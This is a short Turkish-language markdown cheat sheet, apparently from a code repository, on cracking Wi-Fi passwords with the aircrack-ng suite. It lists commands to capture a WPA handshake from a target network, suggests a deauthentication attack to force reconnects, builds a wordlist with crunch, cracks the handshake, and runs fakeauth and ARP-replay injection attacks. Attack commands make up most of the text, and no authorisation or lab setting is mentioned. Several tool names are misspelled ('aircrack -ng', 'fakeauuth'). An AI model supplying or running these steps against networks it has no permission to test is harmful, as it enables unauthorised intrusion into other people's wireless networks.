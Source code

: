 # WEB Şifre Kırma
```aircrack -ng airodumptest.cap``` (Tarama Sırasında Yazdırdığımız Dosya)

## 1.Handshake Yakalama
``` airodump -ng --channel X --bssid XX:XX:XX:XX:XX:XX --write handshake-file wlan0mon```

* channel: Ağın çalıştığı kanal
* bssid: Ağın MAC adresi
* write: Yakalanan handshake'in nereye kayıt edileceği

**! Kolayca handshake yakalamak için ufak paketli deauth saldırı yapılabilir**

## 2.Wordlist Oluşturma
``` crunch 6 10 0123456789abcdefgh -o passwrd.txt``` içinde "0123456789abcdefgh" geçen min 6 maks 10
haneli şifre kombinasyonlarının olduğu passwrd isimli wordlist oluşturur

## 3.Şifre Kırma
``` aircrack -ng handshake-file.cap -w passwrd.txt```

---
---

## Eğer Ağda Yeteri Kadar Cihaz Yoksa
* fakeauuth yolla
* arpreplay çalıştır
* aircrack -ng çalıştır

### Fakeauth saldırısı yapıyoruz ağdan birisi düşüp tekrar bağlanırsa handshake yakalamamız kolaylaşır
```aireplay -ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h YY:YY:YY:YY:YY:YY wlan0mon```

```aireplay -ng --arpreplay -b XX:XX:XX:XX:XX:xX -h YY:YY:YY:YY:YY:YY wlan0mon``` belirlenen cihaza IV yollamamızı sağlar

* **192.168.1.1** modeminizin ara yüzüne giriş yaparsınız









